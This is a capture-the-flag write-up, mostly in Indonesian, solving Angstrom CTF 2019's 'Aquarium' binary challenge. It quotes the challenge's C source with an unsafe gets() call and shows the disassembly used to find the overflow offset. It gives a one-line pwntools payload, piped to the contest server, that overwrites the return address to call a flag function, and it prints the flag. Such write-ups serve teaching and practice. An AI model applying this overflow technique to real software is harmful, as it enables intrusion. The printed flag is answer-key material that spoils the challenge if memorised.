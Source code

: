 # __Angstrom CTF 2019__ 
## _Aquarium_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Binary | 50 | l0l

**Description:** 

> 50 points 305 solves
>
> Here's a nice little program that helps you manage your fish tank.
>
> Run it on the shell server at /problems/2019/aquarium/ or connect with nc shell.actf.co 19305.
>
> Author: kmh11
>
> Given : [binary](./aquarium) and [source](./aquarium.c)

**Hints:**

> What does the gets function do?
>

### Aquarium
```
aquarium: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=534b3b33b4d9e8dfed4eebeeb9a1da06e886a501, not stripped

gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

```
gdb-peda$ info func
...
0x00000000004011b0  frame_dummy
0x00000000004011b6  flag
0x00000000004011c9  create_aquarium
0x000000000040139f  main
...
```

### Aquarium Source Code
```c
...
void flag() {
	system("/bin/cat flag.txt");
}
...
struct fish_tank create_aquarium() {
	struct fish_tank tank;

	printf("Enter the number of fish in your fish tank: ");
	scanf("%d", &tank.fish);
	getchar();

	printf("Enter the size of the fish in your fish tank: ");
	scanf("%d", &tank.fish_size);
	getchar();

	printf("Enter the amount of water in your fish tank: ");
	scanf("%d", &tank.water);
	getchar();

	printf("Enter the width of your fish tank: ");
	scanf("%d", &tank.width);
	getchar();

	printf("Enter the length of your fish tank: ");
	scanf("%d", &tank.length);
	getchar();

	printf("Enter the height of your fish tank: ");
	scanf("%d", &tank.height);
	getchar();

	printf("Enter the name of your fish tank: ");
	char name[50];
	gets(name);

	strcpy(name, tank.name);
	return tank;
}
...
```

#### Solve
Terlihat pada `struct` tank terdapat fungsi `gets` (vulnerable thd buffer overflow) yang dipanggil saat meminta input nama. Selain itu sudah disediakan juga fungsi `flag` yang akan menampilkan flag. 

##### Cari offset buffer
```
   0x0000000000401318 <+335>:   lea    rax,[rbp-0x90]
   0x000000000040131f <+342>:   mov    rdi,rax
   0x0000000000401322 <+345>:   mov    eax,0x0
   0x0000000000401327 <+350>:   call   0x401090 <gets@plt>
```
Dari sini kita tahu bahwa butuh padding 0x90 + 8 bytes(rbp) untuk dapat overwrite return address.

### Payload
```
python2 -c "from pwn import p64;print '1\n'*6+'A'*(0x90+8)+p64(0x00000000004011b6)" | nc shell.actf.co 19305
```

### Flag 
actf{overflowed_more_than_just_a_fish_tank}
